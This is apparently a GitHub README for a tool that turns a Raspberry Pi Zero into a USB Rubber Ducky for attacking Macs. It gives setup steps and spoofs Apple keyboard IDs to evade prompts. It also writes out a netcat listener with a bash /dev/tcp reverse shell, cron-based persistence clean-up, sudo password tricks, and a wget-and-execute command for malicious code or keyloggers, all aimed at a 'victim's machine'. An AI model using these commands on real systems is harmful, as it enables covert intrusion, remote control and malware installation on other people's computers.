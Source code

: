 # Ducky Raspberry Pi Zero for Mac

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/ohbriansung/usb_rubber_ducky/blob/master/LICENSE)

This is a project to convert a normal Raspberry Pi Zero into a USB Rubber Ducky using P4wnP1. There are some threads online about P4wnP1 not running on Mac but here is an introduction about how to setup so your Pi would be able to attack a Mac. Only using pure bash on victim's machine, not third party library or package installation needed. In just 30 seconds, you'd gain control to victim's machine.

![Ducky Raspberry Pi Zero](https://raw.githubusercontent.com/ohbriansung/usb_rubber_ducky/master/pi_zero_ducky/img/concept.jpg)

## Demo Video

[![Brian Ducky Raspberry Pi Zero demo](https://img.youtube.com/vi/IrasdisNsJk/0.jpg)](https://www.youtube.com/watch?v=IrasdisNsJk)

## Requirements

1. Raspberry Pi Zero
2. 8G+ Micro SD card
3. USB Cable \(A-Male to Micro B\)

## Setup

1. Download Raspbian Stretch Lite [image](https://www.raspberrypi.org/downloads/raspbian/).
2. Install image on micro SD card with [Etcher](https://www.balena.io/etcher/).
3. Boot your pi and login with default username and password.

```
username: pi
password: raspberry
```

*Use a HDML cable and a keyboard to operate instead of ssh into it, we will setup wifi connection later then you would be able to access the pi through ssh.*

4. (Optional) Change default password for a better security.
5. Connect to network using Wi-Fi or ethernet (Adapter needed).

```shell
sudo raspi-config
```

6. Download P4wnP1 package and install it. \(If newer version is not working, I have an archived version in this repository that worked when I wrote this documentation.\)

```shell
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1/
./install.sh
```

7. (Important) Change scripts so it will run on Mac. This is a temporarily (03/25/19) workaround solution. "open('/dev/hidg0','rb')" is not working on Mac currently so add a timeout to line 200 in P4wnP1/boot/boot_P4wnP1.

```shell
timeout 1 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```

8. (Important) Use Vendor ID and Product ID from a real Apple keyboard in your payload so Mac won't be asking you to setup an unknown keyboard. See example [here](https://github.com/ohbriansung/usb_rubber_ducky/blob/master/pi_zero_ducky/payloads/hid_keyboard_hello_world.txt).

```
USB_VID="0x05ac"  # Vendor ID
USB_PID="0x027b"  # Product ID
```

9. Put your payload into P4wnP1/payloads/ on your pi zero. Load the payload in "P4wnP1/setup.cfg".

```
PAYLOAD=hid_keyboard_hello_world.txt  # Add to the end of the file
```

10. Shutdown the pi zero and plug it into a Mac with USB cable mentioned [above](#requirements). Use peripheral micro USB port, not the power port. No power needed here, pi zero takes power from target machine.

```shell
sudo shutdown -h now
```

*Remember to use a usb cable with data transfer capability instead of a power supply cable.*

11. If you want to edit the payload later, plug the pi zero into your machine, connect to Wi-Fi "P4wnP1" with password "MaMe82-P4wnP1", and ssh to it.

```shell
ssh pi@172.16.0.1
```

## Create a Reverse Shell Backdoor

1. Host Netcat server on your machine.

```shell
nc -l -p 8080 -vvv
```

2. Create a descriptor on target machine. Make sure to change the IP address and port to your server. Your server must be in the same network as target unless you have a public IP that can be accessed by target machine everywhere. \(Run the descriptor in background is recommended.\)

```shell
bash -i >& /dev/tcp/YOUR_SERVER_IP/8080 0>&1
```

3. On your server, when you see a connection being created, you then have bash access to the target machine. You would be able to see the output of bash directly on your machine with the setup above.
4. In [payloads](https://github.com/ohbriansung/usb_rubber_ducky/tree/master/pi_zero_ducky/payloads) folder there is a reverse shell ducky script example. Here is the clean up script if you use my example.

```shell
rm ~/app_support.sh; rm /tmp/app_support.sh; rm ~/.ssh/rsa_pub_; rm ~/Library/.hidden/app_support.sh; rm ~/Library/Python3.65; rm /usr/local/bin/Python3.65;
echo "" | crontab - && crontab -r
```

*For a newer version of OSX, you would find out that you Mac pops out a window and you need to select OK manually. This is an improvement made by Apple for cron job. If you use the payload without cron job, you will be just fine.*

## What Now

- Rick roll prank

```shell
# One privilege of hacking Mac is we have access to AppleScript.
osascript -e 'set volume 7'
open https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

- Accessing sudo privilege

```shell
echo "password" | sudo -S ls
```

*You would be able to run a background program to brute-force victim's password.*

- Take a screenshot

```shell
osascript -e 'set volume 0'
screencapture ~/a.jpg
```

- Download and run a malicious code or KeyLogger to gain further control.

```shell
wget -O /tmp/x -q -o /dev/null http://link_to_malicious_code/
chmod a+x /tmp/x
/tmp/x
```

- ~~Take a photo with Mac's webcam~~

*Apparently, Apple has a very strong security and privacy. It's nearly impossible to control hardware like webcam or mic without really operating on the machine.*

## Author and Contributors

- Chien-Yu \(Brian\) Sung
- Jordan Aldujaili
- Omar Sharif

## Disclaimer

This repository is for academic purposes, the use of this software is your responsibility.

## References

0. [Raspbian](https://www.raspberrypi.org/downloads/raspbian/)
1. [Ducky Script](https://github.com/hak5darren/USB-Rubber-…)
1. [P4wnP1](https://github.com/mame82/P4wnP1/)
1. [Reverse Shell with Bash](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)
